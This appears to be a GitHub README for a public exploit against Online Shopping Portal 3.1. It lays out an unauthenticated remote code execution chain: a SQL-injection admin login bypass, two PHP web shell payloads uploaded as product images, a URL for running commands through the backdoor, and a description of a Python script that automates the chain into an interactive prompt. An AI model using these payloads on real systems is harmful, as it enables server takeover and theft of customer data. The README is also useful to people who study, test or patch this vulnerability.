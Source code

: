 # Online Shopping Portal 3.1 - Remote Code Execution (Unauthenticated)

Date: 17.07.2021\
Exploit Author: D3duct1V\
Original Exploit Author: Tagoletta (Tağmaç)\
Original EDB-ID: 50029\
Software Link: https://phpgurukul.com/shopping-portal-free-download/ \
Version: v3.1\
Tested on: Windows

---
# Manual Exploit Details

The exploit utilizes multiple vulnerabilities first bypasses authentication then allows for file php file upload. 

## Authentication Bypass

Navigate to the Admin login page: `http://<site>/shopping/admin` 
* Username: `'OR 1=1'--` 
* Password: whatever
  
## File upload vulnerability

After bypassing the authentication navigate to the "Add a new product" \
Here insert whatever data into the fields until the picture. \
The image file should be a php file with the command execution such the following:
  1. `<?php $exe = shell_exec($_REQUEST['cmd']); echo $exe; ?>`
  2. `<?php if(isset($_GET['cmd'])){ echo '<pre>'; $cmd = ($_GET['cmd']); system($cmd); echo '</pre>'; die; } ?>`

## Interacting with the backdoor

Search for the newly uploaded "product" and locate the image URL. \
Then use curl to interact with the backdoor: \
`http://<site>/shopping/admin/productimages/1/<image>.php?cmd=hostname` 

# Automated attack

Running the python script found within this repo uses Python 3 and needs the requests package \
The script can be started `# python3 script.py -u <target URL minus /shopping>` 

The script will bypass the authentication and upload a backdoor with a product name and image name. \
It will then find the backdoor and attempt to connect to and run a current directory echo command. \
Once successful will drop into an interactive command prompt, this will run system commands but not a full shell. 

# Metasploit module

Coming.

